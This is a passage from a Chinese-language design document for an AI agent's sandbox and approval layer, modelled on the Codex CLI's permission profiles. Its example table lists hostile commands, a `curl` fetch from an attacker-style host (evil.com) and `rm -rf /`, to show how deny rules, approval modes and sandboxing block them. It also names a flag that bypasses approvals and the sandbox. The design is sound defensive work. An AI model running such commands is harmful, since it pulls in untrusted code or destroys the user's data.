| `curl https://evil.com/x.sh` | exec | `never` + `workspace-write` | 全自动 ALLOW 进沙箱；但 profile **断网** → `curl` 连接超时失败（deny 没拦，沙箱拦了） |
| `curl https://pypi.org` | exec | `never` + `danger-full` | 全自动 ALLOW 且联网放行 → 真发出请求（裸奔组合，仅用于 external/CI） |
| `rm -rf /`（毁灭性） | exec | 任意 + 任意 | 若命中 `deny` → 一票 DENY，根本不进沙箱；否则 `untrusted` 仍需你同意，且 `workspace-write` 仅限 cwd，`/` 会被 landlock / FS 校验拦截 |

> 一句话直觉：**`deny` = 能不能出门；`mode` = 出门前要不要跟你说一声；`profile` = 出门后的活动范围。** 三件独立、纵深配合。

---


## 5. 与既有设施的边界（不可破坏的约束）

- **`risk` 分级**（`registry.RISK_LEVELS = (read, edit, exec)`）：审批的输入；`bash=exec`、`write/edit=edit`、`read/grep=read`。M2 不改动枚举，只消费它。
- **PLAN 模式门控**（`loop._risk_blocked`，阈值 `plan_mode_block_risk_above="read"`）：**保持不动**。`ApprovalGate` 仅 EXEC 模式介入；PLAN 模式仍只放行 read（确定性），二者纵深独立。
- **`ToolResult` 形态**：审批拒绝/沙箱失败都返回既有 `ToolResult(ok=False, error=...)`，落事件流、不崩循环（复用 M1.3 降级机制）。
- **输出截断**（`max_tool_output_chars` / `_cap_result`）：沙箱返回的文本同样经 `ToolRegistry.run` 的集中截断入口，不变。
- **分层配置**：沙箱/审批字段进 `Settings`，走既有 `pydantic-settings` 四级合并（CLI > env > 项目 YAML > 用户 YAML > 内置默认）。
- **测试不依赖真实 LLM/root/网络**：用 `FakeModel` + `FakeExecutor` + 注入式 `ui`，所有审批/沙箱逻辑纯函数可测。

---

## 6. 落地步骤映射（M2 里程碑）

| 步骤 | 文件 | 目标 |
|---|---|---|
| M2.1 | [2.1-沙盒执行层.md](./../milestones/M2-安全与确认/2.1-沙盒执行层.md) | `SandboxExecutor` 抽象 + 三档 profile + Local/Docker/External + 工厂 |
| M2.2 | [2.2-审批门.md](./../milestones/M2-安全与确认/2.2-审批门.md) | `ApprovalGate`：四模式 + allow/deny 规则 + HITL 回调 |
| M2.3 | [2.3-分层权限配置.md](./../milestones/M2-安全与确认/2.3-分层权限配置.md) | `Settings` 增 sandbox/approval 字段 + YAML 声明式 |
| M2.4 | [2.4-工具与循环集成.md](./../milestones/M2-安全与确认/2.4-工具与循环集成.md) | `bash`→`SandboxExecutor`；`loop` 接入 `ApprovalGate`；`session` 构建 gate |
| M2.5 | [2.5-CLI与HITL交互.md](./../milestones/M2-安全与确认/2.5-CLI与HITL交互.md) | `SessionUI.approve` + `_TyperUI` 实现 + `run`/`chat` 接入 |
| M2.6 | [2.6-测试与验收.md](./../milestones/M2-安全与确认/2.6-测试与验收.md) | `test_sandbox` / `test_approval` / 集成回归 |

---

## 7. 来源

- **OpenAI Codex CLI 官方《Sandbox & approvals》文档**（2025-10）：两层模型——沙箱强制（read-only / workspace-write / danger-full-access）+ 审批策略（untrusted / on-request / on-failure / never）。明确 "**`--ask-for-approval never` works with all `--sandbox` modes**"（即二者配置正交、无强制绑定）；"Both layers must agree before an action proceeds"；推荐组合表（如 read-only+on-request、workspace-write+on-request、full-auto=workspace-write+on-failure、YOLO=`--dangerously-bypass-approvals-and-sandbox`）；workspace-write 默认禁网可配置开启；平台隔离（macOS Seatbelt / Linux Landlock+seccomp）。
- **Daniel Vaughan《Codex CLI Permission Profiles: two-layer security model》(2026-05-08, 更新 2026-07-18)**：明确两层 = Sandbox enforcement（技术上能做什么）+ Approval policy（何时必须问）；结论"沙箱配置文件本身不直接定义审批时机，只界定技术可行性；被沙箱禁止的操作根本不到审批层；沙箱允许的操作是否审批由独立审批层决定；二者配置独立但执行时须共同放行"。
- **CSDN《Codex CLI 安全机制：沙盒策略与权限控制详解》(gitblog_00993, 2026-07)**：源码级（`assess_safety_for_untrusted_command`）交叉约束——① `never` 模式下非 danger 沙箱仍强制隔离、无沙箱则 `Reject`；② **escalated permissions（提权）无论模式一律 `AskUser`**；③ `DangerFullAccess` 关闭 Landlock/seccomp；确认**无** "danger-full 强制 untrusted" 约束，`danger-full + never` 仅提示不推荐。
- OpenAI Codex CLI 官方文档（`codex` CLI）：`sandboxPermissions`（read-only / workspace-write / danger-full）、`approvalMode`（untrusted / on-request / on-failure / never）、`externalSandbox`；`codex-core` 的 `sandbox` 模块（Linux landlock+seccomp、macOS Seatbelt）。
- Claude Code 权限模型（对照）：default / acceptEdits / bypassPermissions 三模式 + allow/deny 规则 + `canUseTool` HITL —— 作为 M2.2 规则引擎与 HITL 的对照参考。
- 本项目：`CODEBUDDY.md`（P2/P3 安全原则、能力正交、配置代码分离）、`通用Agent架构调研与设计报告.md`（§1.2 Codex、§3.2 ② 工具调用/注册/沙箱+确认）、`agent/runtime/registry.py`（`RISK_LEVELS`/`ToolResult`/`ToolSpec`）、`agent/tools/bash.py`（`is_readonly_command` 分段归一化）、`agent/core/loop.py`（`_risk_blocked` PLAN 门控、`_exec_tools`）、`agent/config/settings.py`（分层配置）。
